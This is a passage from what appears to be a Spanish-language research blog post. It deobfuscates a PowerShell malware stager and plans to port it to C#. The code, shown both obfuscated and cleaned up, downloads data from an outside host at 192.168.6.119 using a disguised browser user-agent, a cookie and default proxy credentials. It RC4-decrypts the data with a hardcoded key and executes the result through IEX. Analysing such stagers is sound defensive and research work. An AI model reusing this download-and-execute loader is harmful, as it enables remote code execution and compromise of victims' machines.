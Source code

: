 ```
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$wc.HeADeRs.AdD("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$Wc.HeaDeRs.Add("Accept-Language","en-en");
$WC.HEADErS.AdD("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
$DAtA=$WC.DOWnlOADDAtA($SEr+$T);
$iv=$datA[0..3];
$Data=$DATa[4..$DATA.LENgTh];
-jOiN[ChaR[]](& $R $Data ($IV+$K))|IEX
```

A continuación, eliminemos la parte del IF, para simplificar, y enfoquémonos en el resto del código. También organicé un poco el código, para poder agrupar las partes que funcionan juntas y explicar cada una por separado.

```
[System.Net.ServicePointManager]::Expect100Continue=0;
 
$wc=New-Object System.Net.WebClient;
$u='Mozilla/4.0 (compatible; MSIE 6.0;Windows NT 5.1)';
$wc.Headers.Add('User-Agent',$u);
$wc.Headers.Add("Accept","image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, */*");
$wc.Headers.Add("Accept-Language","en-en");
$wc.Headers.Add("Cookie","session=pRWdj48/Lf2wTAhO2Y7BXpRHz6o=");
 
$wc.PRoxY=[System.Net.WebRequest]::DefaultWebProxy;
$wc.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
$Script:Proxy = $wc.Proxy;
 
$ser='http://192.168.6.119:80';
$t='/CWoNaJLBo/VTNeWw11212/';
$data=$wc.DownloadData($ser+$t);
 
$K=[System.Text.Encoding]::ASCII.GetBytes('fdcece0a22c10f83dccc8f17c95a33d4');
$iv=$data[0..3];
$data=$data[4..$data.Length];
 
$R={$D,$K=$ARGs;
$S=0..255;
0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;
$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;
$H=($H+$S[$I])%256;
$S[$I],$S[$H]=$S[$H],$S[$I];
$_-bXOr$S[($S[$I]+$S[$H])%256]}};
 
-Join[Char[]](& $R $data ($IV+$K))|IEX
```

Ahora tenemos que convertir cada parte de este código en C#. Disfruté mucho aprendiendo algunas clases .Net mientras hacía esta investigación. Comencemos línea por línea.
 